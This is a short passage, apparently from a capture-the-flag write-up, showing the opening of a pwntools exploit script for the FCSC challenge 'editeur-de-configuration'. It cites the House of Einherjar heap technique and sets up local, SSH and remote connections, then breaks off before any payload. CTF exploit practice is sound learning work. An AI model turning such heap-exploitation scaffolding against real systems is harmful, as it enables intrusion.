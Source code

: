 ![](images/Pasted%20image%2020250505001016.png)

## Code

```python

#!/usr/bin/python3

from pwn import *

# https://github.com/shellphish/how2heap/blob/master/glibc_2.35/house_of_einherjar.c

exe = ELF("editeur-de-configuration")
libc = ELF("libc.so.6")
ld = ELF("ld-linux-x86-64.so.2")

context.binary = exe

gdb_script = r'''

    init-pwndbg
    dprintf malloc,"malloc(%p)\n",$rdi
    c

'''

def io():

    if args.SSH:
        s = ssh(user="",
                password="",
                host="",
                port=22
        )
        p = s.process([exe.path])
    
    elif args.REMOTE:
        p = remote("chall.fcsc.fr", 2103)

    else:
```
